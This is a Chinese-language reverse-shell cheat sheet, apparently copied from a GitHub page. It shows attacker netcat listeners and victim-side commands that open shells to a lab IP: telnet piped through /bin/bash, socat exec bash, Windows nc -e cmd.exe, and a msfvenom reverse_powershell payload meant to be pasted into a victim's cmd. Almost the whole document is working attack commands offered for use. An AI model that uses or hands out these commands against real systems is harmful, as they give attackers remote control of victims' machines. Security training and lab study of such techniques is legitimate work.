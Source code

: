 ### telnet反弹

需要在攻击主机上分别监听4567和7654端口，执行反弹shell命令后，在4567终端输入命令，7654查看命令执行后的结果

```
攻击者：
nc -nvlp 4567		#输入命令
nc -nvlp 7654		#输出命令

受害者：
telnet 192.168.239.128 4567 | /bin/bash | telnet 192.168.239.128 7654
```

### socat反弹

```
攻击者：nc -nvlp 8989

受害者：socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.239.128:8989
```

### windows反弹shell

#### nc反弹shell

攻击者：
nc -lvp 8989

受害者：
1：netcat 下载：https://eternallybored.org/misc/netcat/
2：解压后的文件夹里面，按住shift键的同时，在文件夹的空白处鼠标右键打开一个命令窗口
3：输入nc 192.168.239.128 8989 -e c:\windows\system32\cmd.exe

#### MSF反弹

使用 msfvenom -l 结合关键字过滤（如cmd/windows/reverse），找出我们可能需要的payload

```
msfvenom -l payloads | grep 'cmd/windows/reverse'
生成命令
```

```
msfvenom -p cmd/windows/reverse_powershell LHOST=192.168.40.146 LPORT=4444
```


然后MSF启动监听

复制前面通过msfvenom生成的恶意代码到win7的cmd中执行即可。
警告：有的文章说的是把那段恶意代码放到powershell中执行是不对的，也不能拿到session，至少我验证的结果是把代码放在cmd下执行才拿到session！

